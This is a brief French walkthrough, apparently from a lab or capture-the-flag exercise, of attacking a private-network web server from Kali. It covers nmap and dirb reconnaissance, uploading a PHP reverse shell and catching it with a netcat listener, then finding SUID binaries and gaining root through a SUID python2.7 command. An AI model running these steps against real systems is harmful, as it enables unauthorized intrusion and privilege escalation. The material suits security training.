 # Attaque depuis kali:

## Reconnaissance

> nmap 192.168.60.0/24

Visite du site web, on trouve que le serveur utilise php

> dirb http://192.168.60.10/

> dirb http://192.168.60.10/ -X .php

## Reverse shell

Upload de shell.php dans /upload.php

Attente du reverse shell depuis kali:

> nc -nlvp 9001

Ouvrir shell.php dans /uploads

## Escalade de privilèges

Trouver les fichiers avec SUID d'activé:

> find / -perm -u=s -type f 2>/dev/null

Utiliser python pour l'escalade:

> cd /usr/bin

> ./python2.7 -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Vérifier qu'on est root:

> whoami
